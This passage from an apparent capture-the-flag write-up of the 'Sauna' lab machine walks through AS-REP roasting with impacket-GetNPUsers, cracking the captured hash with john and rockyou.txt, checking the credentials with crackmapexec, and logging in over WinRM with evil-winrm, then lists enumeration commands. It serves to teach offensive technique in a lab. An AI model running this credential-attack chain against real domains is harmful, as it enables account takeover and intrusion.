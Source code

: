 <br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have a valid account I will use the `impacket-GetNPUsers` tool to perform an **[AS-REP Roasting Attack](https://www.picussecurity.com/resource/blog/as-rep-roasting-attack-explained-mitre-attack-t1558.004){:target="_blank"}** using the custom dictionary (<ins>although I already know which account is valid</ins>) and I succeed in obtaining a new **ASREP hash** of the **FSmith** account that this time I can crack with `john`, using the **rockyou.txt** dictionary. I check with `crackmapexec` that the credential is valid, but also the same tool informs me that I can use the same credentials to access the machine through the **WinRM** protocol. I only have to resort to `evil-winrm` to gain access to the remote system and start the **Enumeration** phase, now begins my research for **special privileges**, **leakage of sensitive system information** or even access to the first flag.

> **[Impacket’s GetNPUsers.py](https://wadcoms.github.io/wadcoms/Impacket-GetNPUsers/){:target="_blank"}** will attempt to harvest the **non-preauth AS_REP responses** for a given list of usernames. These responses will be encrypted with the user’s password, which can then be cracked offline.

> **Attacker Machine**:

```bash
impacket-GetNPUsers egotistical-bank.local/ -dc-ip 10.10.10.175 -usersfile Usernames.txt -no-pass
nvim kerberos_hash
cat !$
john -w=/usr/share/wordlists/rockyou.txt kerberos_hash
john --show kerberos_hash

crackmapexec smb 10.10.10.175 -u 'FSmith' -p 'T...3'
crackmapexec winrm 10.10.10.175 -u 'FSmith' -p 'T...3'
evil-winrm -i 10.10.10.175 -u 'fsmith' -p 'T...3'
```

> **Victime Machine**:

```cmd
whoami
hostname
ipconfig
whoami /priv
whoami /all
systeminfo
# Access is denied   :(
```

<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />